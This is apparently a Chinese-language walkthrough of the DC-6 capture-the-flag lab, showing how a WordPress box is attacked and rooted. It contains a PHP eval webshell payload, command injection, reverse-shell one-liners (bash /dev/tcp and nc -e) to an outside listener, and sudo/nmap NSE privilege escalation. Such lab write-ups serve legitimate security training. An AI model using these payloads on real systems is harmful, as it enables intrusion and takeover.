

# DC-6
nmap扫描

查看80端口修(需改hosts文件指向wordy)

一个wordpress站点
常规的目录扫描,没有什么发现
用wpscan扫一下,依然没啥发现

看一下wordpress版本有没有漏洞(依然没找到)
没啥突破点了,只有尝试爆破了

作者给了提示:
 /usr/share/wordlists/rockyou.txt |grep k01 > passwords.txt
 
```
sudo  cat /usr/share/wordlists/rockyou.txt |grep k01 > passwords.txt

```
尝试用这些用户名和密码去登录ssh
没有试出来
再拿去跑后台

mark/helpdesk01
进入后台
发现有活动日志记录
记录了登陆时的UA头,应改可以利用
```
User-Agent: hackhere<?php eval($_POST[1]);?>
```
成功记录

蚁剑连不上,看了下源码,没有解析为php代码,引号还被转义

尖括号被转换,应该利用不了
注意到有个工具功能转换ip,和lookup查询
猜测这个lookup可能是执行了命令nslookup
用;闭合执行ls

验证猜想
那么就尝试反弹shell到kali上
```
bash -i >& /dev/tcp/192.168.111.128/4444 0>&1没成功
nc -e /bin/sh 192.168.111.128 4444成功获得shell
```

翻看home目录发现几个用户

正好有mark的密码,且开启ssh服务
尝试ssh登录
好吧密码不对登录不了
看看suid提权
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null

没感觉没有啥能利用的
sudo提权也不行

去查一下内核版本有没有提权漏洞
翻找发现了一个文件

恢复超级驱动器的全部功能（需要与 Jens 交谈）
- 为莎拉的欢送会购买礼物
- 添加新用户：graham - GSo7isUM1D4 - 完成
- 申请 OSCP 课程
看来是给了我们ssh登录的密码
成功登入

此时sudo -l有提示

但是需要jens用户
将/bin/bash写入后执行,就能获得jens权限
```
echo '/bin/bash'>backups.sh

sudo -u jens ./backups.sh
```

再查看权限

能看到nmap能以root身份运行

但是试了不行,是较高版本的nmap没有这个参数了
使用 --script 参数执行命令,nmap 的 NSE（Nmap Scripting Engine）脚本引擎可以执行系统命令
# 方法A：重写文件
利用 nmap 可以将扫描结果输出到文件的功能，来覆盖敏感文件（如 /etc/passwd），从而添加一个 root 用户

# 方法B：将命令写入一个文件后执行
echo 'os.execute("/bin/sh")' > /tmp/shell.nse
sudo nmap --script /tmp/shell.nse
进去后先输入python -c 'import pty;pty.spawn("/bin/bash")'


